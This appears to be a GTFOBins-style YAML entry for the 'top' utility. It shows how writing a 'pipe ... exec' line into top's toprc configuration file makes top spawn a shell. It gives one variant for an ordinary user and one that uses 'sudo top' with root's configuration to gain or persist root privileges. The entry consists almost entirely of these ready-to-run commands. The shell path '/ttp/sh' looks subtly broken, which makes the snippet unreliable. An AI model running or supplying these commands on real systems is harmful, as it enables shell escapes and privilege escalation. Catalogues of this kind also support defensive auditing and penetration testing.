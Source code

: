 ```yaml
---
description: This requires that an existing configuration file is present, to create one run `top` then type `Wq`. Note down the actual configuration file path and use it in the below examples.
functions:
  shell:
    - code: |
        echo -e 'pipe\tx\texec /ttp/sh 1>&0 2>&0' >>~/.config/procps/toprc
        top
        # press return twice
        reset
  sudo:
    - description: This requires that the root configuration file is writable and might be used to persist elevated privileges.
      code: |
        echo -e 'pipe\tx\texec /ttp/sh 1>&0 2>&0' >>/root/.config/procps/toprc
        sudo top
        # press return twice
        reset
---
```

